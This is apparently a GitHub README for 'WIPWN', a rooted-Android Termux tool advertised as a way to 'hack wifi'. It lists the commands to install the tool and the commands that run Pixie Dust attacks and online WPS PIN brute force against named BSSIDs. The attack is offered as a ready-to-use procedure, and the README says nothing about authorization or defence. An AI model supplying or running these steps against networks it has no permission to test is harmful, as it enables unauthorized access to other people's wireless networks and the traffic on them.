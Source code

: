 # WIPWN
Hack wifi using termux (rooted)

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw -y
git clone https://github.com/anbuinfosec/wipwn
cd wipwn
chmod +x main.py
```

#### Help : `sudo python main --help`
#### Example : `sudo python main.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python main.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python main.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python main.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

---

### ❤️ Thanks for stars and forks
[![Forkers repo roster for @anbuinfosec/wipwn](https://reporoster.com/forks/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/network/members)
[![Stargazers repo roster for @anbuinfosec/wipwn](https://reporoster.com/stars/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/stargazers)
